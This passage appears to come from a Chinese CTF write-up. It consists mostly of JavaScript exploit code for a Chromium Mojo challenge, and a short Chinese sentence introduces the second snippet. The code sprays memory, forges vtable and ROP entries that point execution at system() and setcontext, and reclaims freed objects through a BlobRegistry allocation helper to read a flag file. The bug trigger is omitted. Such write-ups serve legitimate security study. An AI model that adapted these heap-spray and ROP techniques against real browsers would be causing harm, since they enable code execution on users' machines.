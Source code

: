 ```let allocate = getAllocationConstructor();
let b64arr = new BigUint64Array(data);
let view = new DataView(data);


b64arr.fill(0x41414242434344n);
let sprayed_val = 0x41414242434344


var bss_offs = libc_bss_addr+0xae0;
console.log("writing to "+hex(bss_offs));

/* ROP */
b64arr[0] = BigInt(bss_offs-0x10);
b64arr[0xa8/8] = BigInt(system_ptr); // rcx, future rip
b64arr[0x68/8] = BigInt(bss_offs+8); // rdi



//view.setUint8(command.length,0x0);
b64arr[(0x670/8)] = BigInt(sprayed_val); // double offs
b64arr[(0x648/8)] = BigInt(bss_offs);

b64arr[(0x650/8)] = BigInt(bss_offs) // vtable things
b64arr[(0x658/8)] = BigInt(bss_offs)
b64arr[(0x660/8)] = BigInt(0n)


/////////////

// bug trigger code is here, just not shown in this snippet :)

////////////

await (Array(alloc_count).fill().map(() => allocate(data))) // go reclaim!

for(var i = 0; i < spray_inst.length-1; i++){
        var tmp = (await spray_inst[i]["inst"].getDouble()).value.f2i()
        //console.log("i->"+ i + " " + tmp.toString(16));
        if(BigInt(tmp) == sprayed_val && (used_indexes.indexOf(i) == -1)){
                used_indexes.push(i);
                console.log("siced");
                (await spray_inst[i]["inst"].push(setcontext)); // push writes to bss
                (await spray_inst[i]["inst"].push(0x2a67616c662f2e)); // "./flag*"
                (await spray_inst[i]["inst"].getTotalSize());
                break top;
        }
}
```
其中，`getAllocationConstructor`实现如下
```
function getAllocationConstructor() {
        let blob_registry_ptr = new blink.mojom.BlobRegistryPtr();
        Mojo.bindInterface(blink.mojom.BlobRegistry.name,
                            mojo.makeRequest(blob_registry_ptr).handle, "process", true);

        function Allocation(size=0x700) {
          function ProgressClient(allocate) {
            function ProgressClientImpl() {
            }
            ProgressClientImpl.prototype = {
              onProgress: async (arg0) => {
                if (this.allocate.writePromise) {
                  this.allocate.writePromise.resolve(arg0);
```